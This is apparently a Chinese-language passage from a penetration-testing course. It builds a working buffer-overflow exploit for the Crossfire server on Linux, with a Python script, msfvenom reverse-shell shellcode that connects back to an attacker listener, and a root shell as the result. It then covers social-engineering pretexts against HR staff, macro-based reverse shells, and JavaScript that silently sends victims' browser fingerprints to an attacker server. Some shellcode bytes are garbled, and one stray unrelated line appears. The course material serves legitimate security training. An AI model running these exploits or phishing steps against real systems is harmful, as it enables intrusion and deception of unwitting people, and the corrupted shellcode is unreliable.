我们最初的概念验证构建了一个恶意缓冲区，其中包括 `"setup sound"` 命令，连接到端口 `13327` 上的远程服务，并发送该缓冲区。

为了令 Crossfire 崩溃，我们可以使用 `python` 运行我们的第一个概念验证：

```
kali@kali:~$ python poc_01.py

[*]Sending evil buffer...

#

[*]Payload Sent !
```

清单 368 - 从 Kali 运行概念验证代码

运行脚本后，调试器显示以下错误消息，明确表明 `setup sound` 命令中存在内存损坏，可能是缓冲区溢出状况：


点击 OK 按钮，我们发现 EIP 寄存器已被我们的缓冲区覆盖。

### 12.2.1.2 练习

- 使用你收到的凭据登录到你的专用 Linux 客户端。
- 在你的 Kali 机器上，重新创建使 Crossfire 服务器崩溃的概念验证代码。
- 将调试器附加到 Crossfire 服务器，对你的 Linux 客户端运行利用程序，并确认 EIP 寄存器已被恶意缓冲区覆盖。

### 12.3 控制 EIP

我们的下一个任务是确定缓冲区中的哪四个字节最终覆盖了易受攻击的函数的返回地址，以便控制 EIP 寄存器。我们将使用 Metasploit 的 `msf-pattern_create` 脚本来创建唯一的缓冲区字符串：

```
kali@kali:~$ msf-pattern_create -l 4379

Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6A...
```

通过用这个新的唯一缓冲区替换我们的原始缓冲区，并再次运行概念验证脚本，我们使被调试的应用程序崩溃，这次用以下字节覆盖了 EIP：


将此值传递给 Metasploit 的 `msf-pattern_offset` 脚本，显示出这些特定字节的以下缓冲区偏移量：

```
kali@kali:~$ msf-pattern_offset -q 46367046

[*] Exact match at offset 4368
```

## 12.3.1.1 练习
- 确定覆盖堆栈上返回地址所需的正确缓冲区偏移量。
- 更新你的独立脚本，以确保偏移量正确。

为了确认这个偏移量，我们将更新概念验证中的 `crash` 变量，以使用四个 `"B"` 字符干净地覆盖 EIP。

```
crash = "\x41" * 4368 + "B" * 4 + "C" * 7
```

列表 371 - 控制 EIP 寄存器

## 12.4 定位 shellcode 的空间

接下来，我们必须查找在崩溃时是否有指向我们缓冲区的寄存器。这一步至关重要，它允许我们随后尝试识别可能的 JMP 或 CALL 指令，以便将执行流重定向到我们的缓冲区。

我们注意到 ESP 寄存器（图 227）指向我们缓冲区的末尾，仅留下 7 个字节的空间用于 shellcode。此外，我们不能通过增加溢出缓冲区大小来获得更多空间；即使只增加一个字节，也会导致另一种不同的崩溃，无法正确覆盖 EIP。


图 227：ESP 指向我们缓冲区的末尾，仅为我们的 shellcode 留下 7 个字节的空间

更仔细地观察崩溃时寄存器的状态（图 227），可以发现更多选项。EAX 寄存器似乎指向我们缓冲区的开头，包括 `"setup sound"` 字符串。

EAX 直接指向命令字符串开头这一事实可能会影响我们简单地跳转到 EAX 所指向的缓冲区的能力，因为在我们执行 shellcode 之前，我们会先执行等同于 ASCII 字符串 `"setup sound"` 的十六进制操作码。这很可能会破坏执行路径并导致我们的利用程序失败。或者事实并非如此？

进一步检查 `"setup sound"` 字符串生成的实际操作码，显示出以下指令：


有趣的是，看起来操作码指令 `s\x73)` 和 `e\x65)`，即单词 `"setup"` 的前两个字母，转换成了*条件跳转*指令，似乎跳转到了我们受控缓冲区中的附近位置。单词 `setup` 的接下来两个字母 `t\x74)` 和 `u\x75)`，转换成了略有不同的条件跳转。所有这些跳转似乎都引导进入我们受控的缓冲区，因此在这种情况下跳转到 EAX 可能实际上对我们有用。然而，这并不是一个优雅解决方案，所以让我们*更努力地尝试*。

继续我们的分析，看起来在崩溃时 ESP 寄存器指向我们唯一缓冲区的末尾，但这只给我们提供了几字节的 shellcode 空间可供操作。我们可以尝试利用有限的空间创建一个第一阶段 shellcode。而不是实际的负载（如反向 shell），这个第一阶段 shellcode 将用于对齐 EAX 寄存器，使其指向 `"setup sound"` 字符串之后的缓冲区，然后跳转到该位置，从而允许我们跳过条件跳转。为了实现这一点，我们的第一阶段 shellcode 需要将 EAX 的值增加 `12\x0C` 个字节，因为 `"setup sound"` 字符串包含 12 个字符。这可以使用 ADD 汇编指令完成，然后使用 JMP 指令跳转到由 EAX 指向的内存。


图 229. EAX 调整所需的字节数

为了获取指令的正确操作码，我们使用 Metasploit 中的 `msf-nasm_shell` 实用工具。

```
kali@kali:~$ msf-nasm_shell

nasm > add eax,12

00000000 83C00C              add eax,byte +0xc

nasm > jmp eax

00000000  FFE0                jmp eax
```

列表 372 - 获取第一阶段 shellcode 操作码

幸运的是，这两组指令 `(\x83\xc0\x0c\xff\xe0)` 只占用 5 个字节的内存。我们可以通过包含第一阶段 shellcode 并用 NOP `(\x90)` 重新填充原始缓冲区来保持正确的长度，从而更新概念验证。

```
#!/usr/bin/python

import socket

host = "10.11.0.128"

padding = "\x41" * 4368

eip = "\x42\x42\x42\x42"

first_stage = "\x83\xc0\x0c\xff\xe0\x90\x90"

buffer = "\x11(setup sound " + padding + eip + first_stage + "\x90\x00"

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

print "[*]Sending evil buffer..."

s.connect((host, 1337))

print s.recv(1024)

s.send(buffer)

s.close()

print "[*]PayLoad Sent !"
```


### 列表 373 - 添加第一阶段负载

运行更新后的概念验证代码后，我们可以验证 EIP 寄存器被四个 B (`\x42`) 覆盖，并且我们的第一阶段 shellcode 位于由 ESP 寄存器指向的内存地址：


图 230. 验证 ESP 指向第一阶段 shellcode 的开头

## 12.5 检查不良字符

为了发现任何可能破坏溢出或损坏我们 shellcode 的不良字符，我们可以使用与 Windows 缓冲区溢出模块中相同的方法。

我们在缓冲区中发送了从 00 到 0F 的整个字符范围，然后监测这些字节在被应用程序处理后，是否在内存中发生了变形、交换、丢失或改变。

多次运行概念验证并逐一排除不良字符后，我们得出了 Crossfire 应用程序的最终不良字符列表，这些字符似乎仅为 `\x00` 和 `\x20`。

### 12.5.1.1 练习
- 确定使用 `msf-nasm_shell` 生成第一阶段 shellcode 所需的操作码。
- 识别不能包含在负载和返回地址中的不良字符。

## 12.6 查找返回地址

作为最后一步，我们需要找到一个有效的汇编指令，将代码执行重定向到 ESP 寄存器指向的内存位置。EDB 调试器附带一组插件，其中有一个名为 *OpcodeSearcher*。


图 231：EDB 的 *OpcodeSearcher* 插件

使用这个插件，我们可以轻松地在 crossfire 应用程序代码段映射的内存区域中搜索 JMP ESP 指令或等效指令：


*图 232：使用 EDB 查找任意汇编指令*

我们选择使用调试器找到的第一个 JMP ESP 指令 (`0x8134596`, 图 232) 继续操作。将覆盖偏移量、返回地址和第一阶段 shellcode 组合在一起，我们得到以下概念验证：

```python
#!/usr/bin/python

import socket

host = "10.11.0.128"

padding = "\x41" * 4368

eip = "\x96\x45\x13\x08"

first_stage = "\x83\xc0\x0c\xff\xe0\x90\x90"

buffer = "\x11(setup sound " + padding + eip + first_stage + "\x90\x00#"

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

print "[*]Sending evil buffer..."

s.connect((host, 1337))

print s.recv(1024)

s.send(buffer)

s.close()

print "[*]Payload Sent !"
```

*列表 374 - 在概念验证中添加返回地址*

在运行我们的概念验证之前，我们重启应用程序并再次将调试器附加到它。不是简单地让 Crossfire 进程运行，而是使用 EDB 断点管理器插件在我们的 JMP ESP 指令地址处设置断点。这将帮助我们确认 EIP 是否被正确覆盖。


设置好断点后，我们可以运行概念验证，如果一切按计划进行，我们的调试器应该在 JMP ESP 指令处停止。


断点已命中，我们继续单步执行 JMP ESP 指令，并落在我们的第一阶段 shellcode 上。


图 235：落在内存中的第一阶段 shellcode

执行第一条指令后，我们发现 EAX 寄存器现在指向我们受控缓冲区的开头，紧随 "setup sound" 字符串之后。


图 236：EAX 指向我们 A 缓冲区的开头

一旦 EAX 寄存器被我们的第一阶段 shellcode 对齐，一条 JMP EAX 指令就会将我们带入一个由 A 组成的干净缓冲区：

## 12.6.1.1 练习

- 使用 EDB 查找适合该漏洞利用程序的汇编指令地址。
- 在你的概念验证（PoC）中包含第一阶段 shellcode 和返回地址指令，并确保通过调试器单步执行来验证第一阶段 shellcode 按预期工作。

## 12.7 获取 Shell

现在剩下的事情就是利用第一阶段 shellcode 可达的 "A" 字符缓冲区，将我们的 payload 放置在缓冲区的开头。我们选择使用反向 Shell（Reverse Shell）作为 payload，并使用 `msfvenom` 生成它。我们传递 `-p` 参数来指定 payload，随后分别是 `LHOST` 和 `LPORT` 的值。我们还使用 `-b` 标志指定需要避免的坏字符，使用 `-f` 指定输出格式，并使用 `-v` 指定要使用的变量名。

```
kali@kali:~$ msfvenom -p linux/x86/shell_reverse_tcp LHOST=10.11.0.4 LPORT=443 -b '\x00\x20' -f py -v shellcode
```

```
[-] No platform was selected, choosing Msf::Module::Platform::Linux from the payload
[-] No arch selected, selecting arch: x86 from the payload
Found 11 compatible encoders
Attempting to encode payload with 1 iterations of x86/shikata_ga_nai
x86/shikata_ga_nai succeeded with size 95 (iteration=0)
x86/shikata_ga_nai chosen with final size 95
Payload size: 95 bytes
Final size of py file: 470 bytes
shellcode = ""
shellcode += "\xbe\x35\x9e\xa3\x7d\x9[\x98\x8d\x94\x24\xf4\x5a\x29"
shellcode += "\xc9\xb1\x12\x31\x72\x12\x83\xc2\x04\x03\x47\x90\x41"
shellcode += "\x88\x96\x77\x72\x90\x8b\xc4\x2e\x3d\x29\x42\x31\x71"
shellcode += "\x4b\x99\x32\xel\xca\x91\xc0c\xcb\xc6c\x98\xb0\x7a\xb84"
shellcode += "\xb7\xfc\xb8\x46\xaf\xfe\x40\x67\x8b\x1f\xa1\xad\x8d"
shellcode += "\xb8\x73\x44\xe1\xda\xfa\x8b\xb8\x5d\xae\x23\xbd\x72"
shellcode += "\xc3c\xdb\x29\xa2\xed\x79\xc3\x56\x12\x40\xf2\xf1\xcf\x34"
shellcode += "\xf7\xfd\x02\x36"
```

列表 375 - 使用 `msfvenom` 生成 Linux 反向 Shell payload

如上所述，payload 将被放置在缓冲区的开头。这意味着我们需要考虑 payload 的大小，并用正确数量的 "A" 字符对其进行填充。这将确保我们保持原有的偏移量，以便用我们想要的字节覆盖 EIP 寄存器。最终的概念验证实现了 payload 并相应地调整了缓冲区大小：

```python
#!/usr/bin/python

import socket

host = "10.11.0.128"

nop_sled = "\x90" * 8  # NOP sled

# msfvenom -p linux/x86/shell_reverse_tcp LHOST=10.11.0.4 LPORT=443 -b "\x00\x20" -f py

shellcode = ""

shellcode += "\x35\x9e\xa3\x7d\xd9\xe8\xd9\x74\xf4\x5a\x29"
```


```python
shellcode += "\xc9\xb1\x12\x31\x72\x12\x83\xc2\x94\x90\x41"
shellcode += "\x88\x96\x77\x72\x90\x8b\xc8\x80\xc8\x8b\x83\x71"
shellcode += "\x8b\xa9\xe1\xca\x91\x8c\xc6\x80\xc8\x8b\x86\x40"
shellcode += "\xb7\xfc\x8b\xa4\xf9\x8b\x40\x79\x8d\x8b\x77\x8b"
shellcode += "\x8b\x73\xa4\x44\x80\x4a\xf8\x8d\x88\x72\x23\x72"
shellcode += "\x3c\x8d\x29\xa2\x20\x20\x3c\xb5\x2f\x8f\x34"
shellcode += "\x87\x8d\x82\x36"
padding = "\x41" * (4368 - len(nop_sled) - len(shellcode))
eip = "\x96\x45\x13\x08"  # 0x08134596
first_stage = "\x83\xc8\xff\x80\x90\x80"
buffer = "\x11(setup sound " + nop_sled + shellcode + padding + eip + first_stage + "\n"
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
print "[*]Sending evil buffer..."
s.connect((host, 13327))
print s.recv(1624)
s.send(buffer)
s.close()
print "[*]Payload Sent !"
```

## 列表 376 - Crossfire 应用程序的最终漏洞利用程序

我们重启 Crossfire 应用程序并启动我们的漏洞利用程序，同时附加调试器。在我们的攻击机器上，我们在 Netcat 监听器上收到了连接，但 shell 似乎卡住了：

```
kali@kali:~$ sudo nc -lnvp 443
listening on [any] 443 ...
connect to [10.11.0.4] from (UNKNOWN) [10.11.0.128] 40542
id
whoami
```

### 列表 377 - 反向 Shell 卡住了

回到调试器窗口，看起来应用程序暂停了，当我们尝试让它继续运行时，我们收到了关于调试事件的消息：


只需点击事件中的 OK 并回到我们的 Netcat 监听器即可解决此问题。然而，每次运行命令时，我们都必须重复这个过程。

这是因为调试器捕获了 `SIGCHLD` [331] 事件，这些事件是在我们反向 shell 生成的子进程发生某些情况（如进程退出、崩溃、停止等）时产生的。

为了确保我们的漏洞利用程序按预期工作，我们重启 Crossfire 应用程序并在不附加调试器的情况下运行它：

```
kali@kali:~$ nc -lnvp 443
listening on [any] 443 ...
connect to [10.11.0.4] from (UNKNOWN) [10.11.0.128] 40544
whoami
root
```


列表 378 - 来自 Linux 机器的正常工作反向 Shell

正如我们所怀疑的那样，在不附加调试器的情况下运行应用程序为我们提供了来自受害机器的正常工作反向 Shell。

### 12.7.1.1 练习

- 更新你的概念验证以包含可工作的 payload。
- 在与 Crossfire 应用程序交互时，分别在有调试器和无调试器的情况下获取 shell。

## 12.8 总结

在本模块中，我们介绍了在 Linux 操作系统上利用缓冲区溢出漏洞的过程。类似于在 Windows 缓冲区溢出模块中使用的漏洞利用程序，我们能够对易受攻击的应用程序中的崩溃进行调试，并为其编写一个完全可用的漏洞利用程序。

[331] (Andries Brouwer, 2003), https://www.win.tue.nl/~aeb/linux/k/k-5.html

## 13. 客户端攻击

客户端攻击向量特别隐蔽，因为它们利用的是客户端软件（如浏览器）的弱点，而不是利用服务器软件的弱点。这通常涉及某种形式的用户交互和欺骗，以便客户端软件执行恶意代码。

这些攻击向量对攻击者特别具有吸引力，因为它们不需要对受害者机器进行直接或可路由的访问。

> 客户端攻击基本上反转了传统的攻击模型，并催生了新的防御范式的需求。

例如，想象在一个不可路由的内部网络中，一名员工收到了一封带有附件或指向恶意网站链接的电子邮件。如果员工打开附件或点击链接，该内容（可能是文档或网页内容）将作为输入发送到其机器上的本地应用程序。然后，应用程序将渲染该输入并可能执行恶意代码。员工的机器将被利用，或许是从被入侵的机器通过防火墙启动一个远程 Shell，连接到攻击者机器上的监听器。

在本模块中，我们将描述在这种类型攻击中需要考虑的一些重要因素，并介绍涉及恶意 HTML 应用程序和 Microsoft Word 文档的利用场景。

### 13.1 了解你的目标

从攻击者的角度来看，客户端攻击的主要难点在于枚举受害者的客户端软件，这远不像枚举 WWW 或 FTP 服务器那样直接。与渗透测试的大多数事情一样，客户端攻击成功的关键在于准确和彻底的信息收集。

我们可以针对我们的客户端攻击目标使用被动和主动信息收集技术。

#### 13.1.1 被动客户端信息收集

在利用被动信息收集技术时，我们不直接与预期的目标进行交互。

例如，在最近的一次任务中，我们被指派尝试通过客户端攻击和各种鱼叉式网络攻击（Phishing）[332] 技术攻陷公司员工。但是，我们不允许通过电话与员工联系。

[332] (Wikipedia, 2019). https://en.wikipedia.org/wiki/Phishing


鉴于这一限制，我们在 Google 上搜索了各种已知的对外部公司 IP 地址，并在一个托管各种联盟网站收集的用户代理数据的站点上找到了其中一个。

该信息类似于以下屏幕截图所示，揭示了公司客户端机器的底层操作系统版本。


图 239：识别受害者的浏览器

它还揭示了浏览器类型和版本以及安装在用户代理字符串中列出的插件。我们修改了一个现有的漏洞利用程序，并将其针对与我们目标运行相同操作系统和浏览器版本的其中一台实验室机器启动。测试成功，因此我们在针对我们的公司目标进行的客户端攻击中使用了该漏洞利用程序，并收到了一个反向 Shell 作为奖励。

我们可以相当经常地找到这类信息，例如在社交媒体和论坛网站上。事实上，我们甚至发现了显示计算机屏幕的照片，揭示了关于操作系统类型和版本、应用程序版本、正在使用的防病毒应用程序等的信息。花时间做研究永远不会白费。

#### 13.1.2 主动客户端信息收集

相比之下，主动客户端信息收集技术直接与目标机器或其用户建立联系。

这可能涉及给一个用户打电话，试图提取有用信息，或者向受害者发送定向电子邮件，希望他们点击一个链接，该链接将枚举目标的操作系统版本、浏览器版本和已安装的扩展程序。

我们将在本节中探讨主动信息收集技术。

#### 13.1.2.1 社会工程与客户端攻击

由于大多数客户端攻击都需要某种形式的目标交互，例如要求目标点击链接、打开电子邮件、运行附件或打开文档，我们应该预先利用社会工程（Social Engineering）[333] 策略来提高成功率。

[333] (Wikipedia, 2019). https://en.wikipedia.org/wiki/Social_Engineering_(security)

想象以下场景。我们正在执行一项任务，试图对人力资源部（HR）发起客户端攻击。我们可以盲目地直接发起攻击，但由于我们不知道他们使用的是什么操作系统和应用，也不知道具体的版本，因此成功的可能性微乎其微。相反，我们会选择谨慎行事，提交一份格式错误的“简历”文档，该文档被设计为无法打开。我们在措辞上精心设计邮件内容，以诱导对方做出某种形式的回应。

第二天，我们收到一封邮件回复，表明人力资源部无法打开我们的文档，这并不令人惊讶。为了帮助解决问题，我们会回复（如果可能的话，最好通过电话联系），询问他们使用的具体 Microsoft Office 版本，并指出该问题可能由版本不兼容引起。这种对话可以继续深入，例如询问 Office 中可能启用的安全功能，或正在使用的操作系统版本。这种类型的对话必须保持平衡、低调，并穿插能够合理化提问的评论，例如：“这份简历使用了宏等高级功能，以使其脱颖而出并方便浏览内容。”虽然具体过程超出了本模块的范围，但这种做法被称为*虚构身份（pretexting）* [354]，并能极大地提高我们的成功率。

在我们的场景中，我们发现人力资源代表理所当然地使用了特定版本的 Microsoft Office，并且允许执行 Word 宏。获得这些信息后，我们可以制作第二份包含宏的 Word 简历文档，该宏利用 PowerShell 开启反向 shell，并将其通过邮件发送给他们。

当然，这是一个简化的成功故事。你的社会工程学虚构身份策略肯定需要更加复杂和具体，基于你预先收集的信息。

### 13.1.2.2 客户端指纹识别

客户端指纹识别 [355] 的过程对于攻击的成功至关重要，但为了获取最精确的信息，我们经常必须直接从目标机器本身收集。我们可以将这一重要的攻击阶段作为利用过程之前的独立步骤来执行，或者将指纹识别整合到利用本身的第一阶段中。

让我们假设在一个实际示例中，我们已经说服受害者访问我们的恶意网页。我们的目标将是识别受害者的网页浏览器版本以及底层操作系统的相关信息。

> 网页浏览器通常是收集目标信息的优良途径。其演化、复杂性以及功能丰富性对最终用户和攻击者而言都已是一把双刃剑。

我们可以创建自己的定制工具，但也有很多可用的开源指纹识别项目，其中最可靠的通常是那些直接利用常见客户端组件（如 JavaScript）的项目。

- [354] (Wikipedia, 2019), https://en.wikipedia.org/wiki/Social_engineering_(security)#Pretexting
- [355] (Wikipedia, 2019), https://en.wikipedia.org/wiki/Device_fingerprint


在此示例中，我们将使用 *Fingerprint2* JavaScript 库，该库可以通过从其 GitHub 仓库下载并解压项目归档文件来安装：

```bash
kali@kali:~/var/www/html$ sudo wget https://github.com/Valve/fingerprint2/archive/master.zip
--2019-07-24 02:42:36--  https://github.com/Valve/fingerprint2/archive/master.zip
.
2019-07-24 02:42:41 (116 KB/s) - `master.zip` saved [99698]
kali@kali:~/var/www/html$ sudo unzip master.zip
Archive:  master.zip
eb44f8f6f5a8c4c9ae476dc60d8ed1015b2b605
  creating: fingerprint2s-master/
  inflating: fingerprint2s-master/.eslintrc
.
kali@kali:~/var/www/html$ sudo mv fingerprint2s-master/ fp
```

列表 379 - 下载 Fingerprint2 库

我们可以基于项目包含的示例，将此库整合到一个 HTML 文件中。我们将在位于 Kali 网络服务器 `/var/www/html/fp` 目录下的 **fingerprint2.html** HTML 文件中包含 **fingerprint2.js** 库。

```bash


kali@kali:~/var/www/html/fp$ cat fingerprint2.html

```html
<!doctype html>
<html>
<head>
    <title>Fingerprint2 test</title>
</head>
<body>
<h1>Fingerprint2</h1>
<p>Your browser fingerprint: <strong id="fp"></strong></p>
<p><code id="time"></code></p>
<p><span id="details"></span></p>
<script src="fingerprint2.js"></script>
<script>
    var d1 = new Date();
    var options = {};
    Fingerprint2.get(options, function (components) {
        var values = components.map(function (component) { return component.value })
        var murmur = Fingerprint2.x64Hash128(values.join(''), 31)
        var d2 = new Date();
        var timeString = "Time to calculate the fingerprint: " + (d2 - d1) + "ms";
        var details = "<strong>Detailed information: </strong><br />";
        if(typeof window.console == "undefined") {
            for (var index in components) {
                var obj = components[index];
                var value = obj.value;
                if (value != null) {
                    var line = obj.key + " = " + value.toString().substr(0, 150);
                    details += line + "<br />";
                }
            }
        }
    }
  }
  document.querySelector("#details").innerHTML = details
  document.querySelector("#fp").textContent = murmur
  document.querySelector("#time").textContent = timeString
</script>
</body>
</html>
```

### 列表 380 - 使用 Fingerprintjs2 JavaScript 库

列表 380 中的 JavaScript 代码调用 `Fingerprint2.get` 静态函数以启动指纹识别过程。库返回的 `components` 变量是一个数组，包含从客户端提取的所有信息。存储在 `components` 数组中的值会被传递给 `murmur` [332] 哈希函数，以创建浏览器的哈希指纹。最后，相同的值会被提取并显示在 HTML 页面上。

上述网页（图 240）来自我们的 Windows 实验室机器，揭示了几行 JavaScript 代码提取了浏览器 User Agent 字符串、其本地化设置、已安装的浏览器插件及相对版本、关于底层 Win32 操作系统平台的一般信息以及其他详细信息。

## Fingerprintjs2

```
Your browser fingerprint: 062bc40b044b31l83b04eb42afl2526l
Time took to calculate the fingerprint: 256ms
Detailed information:
userAgent = Mozilla/5.0 (Windows NT 10.0) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/58.0.3029.110 Safari/537.36 Edge/16.16299
webdriver = false
language = en-US
colorDepth = 24
decisionMemory = not available
hardwareConcurrency = 1
screenResolution = 800,600
availableScreenResolution = 800,560
timezoneOffset = 420
timezone = America/Los_Angeles
sessionStorage = true
localStorage = true
indexedDB = true
addBehavior = false
openDatabase = false
cpuClass = not available
platform = Win32
plugins = Edge PDF Viewer,Portable Document Format,application/pdf,pdf
canvas = canvas windexing:yes,canvas fp:data:image/png;base64,iVBORw0KGgoAAAAANSUUhEUgAAoQAAAQDCAAYAAAAgUd08AAAAgAA9RQ612ars4c060AAAAAA0R218AAxJwv2VYUAAAA8YSU8RBVhe74
webgl = data:image/png;base64,iVBORw0KGgoAAAAASUUEIA8AAAAUQAAcYAAABMTX55SAAAAKXQRR81Rl2ars4c060AAAAQR218AAA6CxJw2VYUAAAAGYSU8RBVhe74
webGLVendorRenderer = Microsoft-Microsoft Basic Render Driver
adBlock = false
heshieledResolution = false
heshieledDo = false
heshieledBrowser = false
touchSupport = 0,false,false
fonts = Arial,Arial Black,Arial Narrow,Arial Rounded MT Bold,Book Antiqua,Bookman Old Style,Calibri,Cambria,Cambria Math,Century
audio = 124.0007979219147
```


```
Mozilla/5.0 (Windows NT 10.0) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/58.0.3029.110 Safari/537 Edge/16.16299
```


我们可以将此 User Agent 字符串提交到在线用户代理数据库，以识别浏览器版本和操作系统，如图 241 所示。

PwnKit：权限提升：绕过方法：PwnKit：权限：提升


图 241：通过 http://developers.whatismybrowser.com 用户代理数据库识别确切的浏览器版本

请注意，User Agent 字符串隐含地告诉我们，Microsoft Edge 41 正在 32 位版本的 Windows 10 上运行。对于 64 位版本的 Windows，该字符串将包含有关 64 位体系结构的一些信息，如下所示：

```
Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/58.0.3029.110 Safari/537 Edge/16.16299
```


列表 382 - 64 位 Windows 版本上相同版本的 Microsoft Edge 的完整 User Agent 字符串

我们设法收集到了所需的信息，但列表 380 中的 JavaScript 代码将数据显示给受害者而不是攻击者。这显然没什么用，因此我们需要找到一种方式将提取的信息传输到我们的攻击 Web 服务器。

几行 Ajax[^ajax] 代码就可以做到。列表 383 显示了之前使用的指纹网页的修改版本。在此代码中，我们使用 `XMLHttpRequest` JavaScript API 通过 POST 请求与攻击 Web 服务器进行交互。该 POST 请求针对的是存储恶意网页的同一服务器，因此 `xmlhttp.open` 方法中使用的 URL 不指定 IP 地址。

[^ajax]: [维基百科，2019]，https://en.wikipedia.org/wiki/Ajax_(programming)

包含由 `Fingerprint2` 库提取信息的 `components` 数组，通过几行 JavaScript 代码进行处理，类似于之前的示例。然而，这次结果输出字符串通过 POST 请求发送到 `js.php`。列表 383 中突出显示了关键组件：

```html

<!doctype html>

<html>

<head>

	<title>Blank Page</title>

</head>

<body>

	<h1>You have been given the finger!</h1>

	<script src="fingerprint2.js"></script>

	<script>

		var d1 = new Date();

		var options = {};

		Fingerprint2.get(options, function (components) {

			var values = components.map(function (component) { return component.value })

			var murmur = Fingerprint2.x64hash128(values.join('|'), 31)

			var clientfp = "Client browser fingerprint: " + murmur + "\n\n";

			var d2 = new Date();

			var timeString = "Time to calculate fingerprint: " + (d2 - d1) + "ms\n\n";

			var details = "Detailed information: \n";

			if(typeof window.console !== "undefined") {

				for (var index in components) {

					var obj = components[index];

					var value = obj.value;

					if (value !== null) {

						var line = obj.key + " = " + value.toString().substr(0, 150);

						details += line + "\n";

					}

				}

			}

			var xmlhttp = new XMLHttpRequest();

			xmlhttp.open("POST", "/fp/js.php");

			xmlhttp.setRequestHeader("Content-Type", "application/txt");

			xmlhttp.send(clientfp + timeString + details);

		});

	</script>

</body>

</html>

```

*列表 383 - 将浏览器信息发送到攻击者服务器*

让我们看看处理攻击服务器上 POST 请求的 `/fp/js.php` PHP 代码：

```php

<?php

$data = "Client IP Address: " . $_SERVER['REMOTE_ADDR'] . "\n";

$data .= file_get_contents('php://input');

$data .= "----------------------------------------\n\n";

file_put_contents('/var/www/html/fp/fingerprint.txt', print_r($data, true), FILE_APPEND | LOCK_EX);

?>

```

*列表 384 - 处理 JavaScript POST 请求并将上传数据转储到文件的 PHP 代码*

该 PHP 代码首先从包含服务器和执行环境信息的 `$_SERVER`[^server_var] 数组中提取客户端 IP 地址。然后，IP 地址与从 JavaScript POST 请求接收的文本字符串连接起来，并写入 `/var/www/html/fp/` 目录中的 `fingerprint.txt` 文件。请注意 `FILE_APPEND` 标志的使用，它允许我们将多个指纹存储到同一文件中。

[^server_var]: (The PHP Group, 2019), https://www.php.net/manual/en/reserved.variables.server.php

为了让这段代码工作，我们需要允许 Apache `www-data` 用户向 `fp` 目录写入：

```bash

kali@kali:/var/www/html$ sudo chown www-data:www-data fp

```

列表 385 - 更改 fp 目录的权限

一旦受害者浏览 `fingerprint2server.html` 网页（图 242），我们可以检查攻击服务器上 `fingerprint.txt` 的内容：

```
Client IP Address: 10.11.0.22
Client browser fingerprint: ff0435cc84bac49b15078773c5e3f2e
Time took to calculate the fingerprint: 625ms
Detailed information:
userAgent = Mozilla/5.0 (Windows NT 10.0) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/58.0.3029.110 Safari/537.36 Edge/16.16299
webdriver = false
language = en-US
colorDepth = 24
deviceMemory = not available
hardwareConcurrency = 1
screenResolution = 787,1260
availableScreenResolution = 747,1260
timezoneOffset = 420
timezone = America/Los_Angeles
sessionStorage = true
localStorage = true
indexedDb = true
addBehavior = false
openDatabase = false
cpuClass = not available
platform = Win32
plugins = Edge PDF Viewer,Portable Document Format,application/pdf,pdf
canvas = canvas winding:yes,canvas fp:data:image/png;base64,iVBORw0KGgoAAAANSUeEuGAAAB9
webgl = data:image/png;base64,iVBORw0KGgoAAAANSUeEuGAAAWAAACwCAYAAABk7X75AAAAXNSR0IA
webglVENDORwebGLRenderer = Microsoft-Microsoft Basic Render Driver
adBlock = false
hashedLanguages = false
hashedResolution = false
hashedOs = false
hashedBrowser = false
touchSupport = 0,false,false
fonts = Arial,Arial Black,Arial Norrow,Arial Rounded MT Bold,Book Antiqua,Bookman Old
audio = 124.080073878219147
```


列表 386 - 发送到服务器的浏览器指纹信息

通过这种修改，受害者的浏览器中不会显示任何信息。`XMLHttpRequest` 在没有任何受害者交互的情况下静默地将数据传输到了我们的攻击服务器。受害者看到的唯一输出是我们选择的文本：

You have been given the finger!


图 242. 通过 `XMLHttpRequest` 请求进行浏览器指纹识别

### 13.1.2.3 练习

**注意：这些练习不需要报告**

- 1. 识别你的公共 IP 地址。使用公共信息来源，看看你能从你的 IP 地址了解到什么。如果你在特定的 IP 地址上没有找到任何信息，请尝试其所在的 C 类地址。
- 2. 比较你能收集到的关于你家 IP 地址的信息和收集到的关于你工作 IP 地址的信息。思考攻击者如何将发现的信息作为攻击的一部分加以利用。
- 3. 下载 `Fingerprint2` 库并制作一个类似于客户端指纹识别部分中所示的网页。从你的 Windows 10 实验机浏览该网页，并重复步骤以在你的 Kali Web 服务器上收集由 JavaScript 库提取的信息。

### 13.2 利用 HTML 应用程序

将注意力转向特定的客户端攻击，我们首先关注 HTML 应用程序[^hta]。

[^hta]: (Microsoft, 2011). https://msdn.microsoft.com/en-us/library/ms536496(VS.85).aspx

如果创建的文件扩展名为 `.hta` 而不是 `.html`，Internet Explorer 会自动将其解释为 HTML 应用程序，并提供使用 `mshta.exe` 程序执行它的功能。

HTML 应用程序的目的是允许直接从 Internet Explorer 执行任意应用程序，而不是下载并手动运行可执行文件。由于这与 Internet Explorer 中的安全边界冲突，HTML 应用程序始终由 Microsoft 签名的二进制文件 `mshta.exe` 在浏览器安全上下文之外执行。如果用户允许这种情况发生，攻击者可以以该用户的权限执行任意代码，从而避开 Internet Explorer 通常施加的安全限制。

虽然这种攻击向量仅针对 Internet Explorer 和一定程度的 Microsoft Edge 有效，但由于许多公司仍依赖 Internet Explorer 作为其主要浏览器，因此它仍然有用。此外，此向量利用了直接内置于 Windows 操作系统中的功能，更重要的是，它与不太安全的 Microsoft 遗留 Web 技术（如 `ActiveX`[^activex]）兼容。

[^activex]: (Wikipedia, 2019), https://en.wikipedia.org/wiki/ActiveX

#### 13.2.1 探索 HTML 应用程序

与 HTML 页面类似，典型的 HTML 应用程序包含 `html`、`body` 和 `script` 标签，随后是 JavaScript 或 VBScript 代码。然而，由于 HTML 应用程序在浏览器外部执行，我们可以自由使用那些在浏览器内通常被阻止的遗留和危险功能。

